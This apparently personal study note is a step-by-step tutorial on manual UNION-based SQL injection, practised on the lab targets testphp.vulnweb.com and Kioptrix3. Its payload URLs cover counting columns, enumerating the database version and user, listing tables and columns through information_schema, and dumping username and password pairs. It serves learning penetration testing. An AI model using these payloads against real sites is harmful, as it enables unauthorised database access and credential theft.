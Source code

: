 # SQL Injection (SQLi)

`There are many types of injection vulnerabilities possible within web applications, such as HTTP injection, code injection, and command injection. The most common example, however, is SQL injection. A SQL injection occurs when a malicious user attempts to pass input that changes the final SQL query sent by the web application to the database, enabling the user to perform other unintended SQL queries directly against the database.

There are many ways to accomplish this. To get a SQL injection to work, the attacker must first inject SQL code and then subvert the web application logic by changing the original query or executing a completely new one. First of all, the attacker has to inject code outside the expected user input limits, so it does not get executed as simple user input. In the most basic case, this is done by injecting a single quote (') or a double quote (") to escape the limits of user input and inject data directly into the SQL query.

Once an attacker can inject, they have to look for a way to execute a different SQL query. This can be done using SQL code to make up a working query that executes both the intended and the new SQL queries. There are many ways to achieve this, like using stacked queries or using Union queries.

Finally, to retrieve our new query's output, we have to interpret it or capture it on the front end of the web application`
___

### First step :
_we can try to check if there is a SQLI with adding '_
If the page remains in same page or showing that page not found or showing some other webpages. Then it is not vulnerable.
If it showing any errors which is related to sql query,then it is vulnerable
for eg:
![[Pasted image 20211206181830.png]]

### Step two :
_Finding out the number of columns_
Now we know that the web is vulnerable next step is to find out the number of columns in the table we can do that by using order by query 
https://testphp.vulnweb.com/listproducts.php?cat=1 order by n
replace n with numbers you want or you can use them together by adding , between the numbers 
https://testphp.vulnweb.com/listproducts.php?cat=1 order by n,n,n,n,n,,n,n
for eg. 1 2 3 4 5 6 7 8 
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%202
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%203
https://testphp.vulnweb.com/listproducts.php?cat=1%20order%20by%201,2,3,4,5,6
and sometimes it might not work and wee need to add "--" at the end of the query 
https://testphp.vulnweb.com/listproducts.php?cat=1 order by 1,2,3,4,5,6--
we can keep raising the number up till we get an error that means that column doesn't exist and we 
![[Pasted image 20211206182930.png]]

### Step Three :
_Checking for the vulnerable column_
Using “union select columns_sequence” we can find the vulnerable part of the table. Replace the “order by n” with this statement. And change the id value to negative(i mean id=-2,must change,but in some website may work without changing).

if the number of columns is 6 we can do the query like this : 
http://kioptrix3.com/gallery/gallery.php?id=-2%20union%20select%201,2,3,4,5,6--
![[Pasted image 20211206183809.png]]
or if it didn't work we can try 
http://kioptrix3.com/gallery/gallery.php?id=-2%20and%201=1%20union%20select%201,2,3,4,5,6--
it will show some numbers on the page let's take one of them and test on it 
![[Pasted image 20211206183958.png]]
let's try 3 
### Step Four :
_Enumerating the version tables database users etc._
now in the url we can change the number 3 to a SQL command 
http://kioptrix3.com/gallery/gallery.php?id=-2 and 1=2 union select 1,2,version(),4,5,6--
![[Pasted image 20211206184144.png]]
and it works! 
now we can take this further and extract more info from the system 
we can use database() 
![[Pasted image 20211206184310.png]]

or user()
![[Pasted image 20211206184328.png]]

if the above examples didn't work we can use hex and unhex 
http://kioptrix3.com/gallery/gallery.php?id=-2 and 1=2 union select 1,2,unhex(hex(@@version)),4,5,6
![[Pasted image 20211206184440.png]]

### Step Five :
_Getting Table name_
in this step we can use group_concat(table_name) from information_schema.tables where table_schema=database() to get the table name 

![[Pasted image 20211206184647.png]]

now we have table names on the database

`if the version is 4 or some others, you have to guess the table names. (user, tbluser).  It is hard and bore to do sql inection with version 4.`

### Step Six :
_Finding Column name_
Now we replace the “group_concat(table_name) with the “group_concat(column_name)”
and 
Replace the “from information_schema.tables where table_schema=database()–” with “FROM information_schema.columns WHERE table_name=SQLCHARS–
now what we should do is convert the table name into a SQLCHARS 
we can do that in : http://www.waraxe.us/sql-char-encoder.html
now we want to get columns inside gallarific_users table so converting gallarific_users into sqlchars we get 0x67616c6c6172696669635f7573657273
adding that to our url 

http://kioptrix3.com/gallery/gallery.php?id=-2%20and%201=2%20union%20select%201,2,group_concat(column_name),4,5,6%20from%20information_schema.columns%20where%20table_name=0x67616c6c6172696669635f7573657273

![[Pasted image 20211206190118.png]]

now we have all the columns inside gallarific_users

### Step Seven :
_Dumping the database columns values_

Now we replace the replace group_concat(column_name) with group_concat(columnname,0x3a,anothercolumnname).
columnname should be replaced with what column name we want to get 
and anothercolumnname should be replaced with what other column we also want to see 
Now we  replace the ” from information_schema.columns where table_name= 0x67616c6c6172696669635f7573657273” with the “from table_name”
http://kioptrix3.com/gallery/gallery.php?id=-2 union select 1,2,group_concat(username,0x3a,password),4,5,6 from gallarific_users--
![[Pasted image 20211206190710.png]]
and Voila! 
we have the users and passwords from the table users